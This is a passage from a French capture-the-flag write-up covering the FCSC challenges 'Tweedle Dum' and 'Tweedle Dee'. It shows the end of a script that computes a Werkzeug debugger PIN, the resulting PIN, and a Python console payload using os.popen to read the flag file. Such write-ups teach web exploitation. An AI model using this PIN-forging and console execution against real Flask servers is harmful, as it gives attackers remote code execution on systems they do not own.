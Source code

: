 ```python
if num is None:
	h.update(b"pinsalt")
	num = f"{int(h.hexdigest(), 16):09d}"[:9]

if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = "-".join(
				num[x : x + group_size].rjust(group_size, "0")
				for x in range(0, len(num), group_size)
			)
			break
	else:
		rv = num

print(rv)
```

*Résultat* :

```bash
[/mnt/c/Users/vozec/Desktop]$ python3 FCSC/Tweedle\ Dum.py
415-333-840
```  

On peut donc le rentrer sur le */console* et accéder à la console python. On flag finalement grâce au module **os**:

```python
__import__('os').popen('cat flag*').read();
```

![Alt text](./img/4.png)

![Alt text](./img/meme1.jpg)

# Tweedle Dee

Ce challenge est une version plus complexe du précédent. Encore une fois, le code source est fourni et voici les modifications:  

```bash
.
├── docker-compose.yml
└── src
    ├── app
    │ ├── app.py
    │ ├── Dockerfile
    │ ├── static
    │ │ ├── style.css
    │ │ └── tweedle.png
    │ └── templates
    │     └── index.html
    └── nginx
        ├── Dockerfile
        └── nginx.conf
```


[//]: <> (Wrote By Vozec 27/04/2023)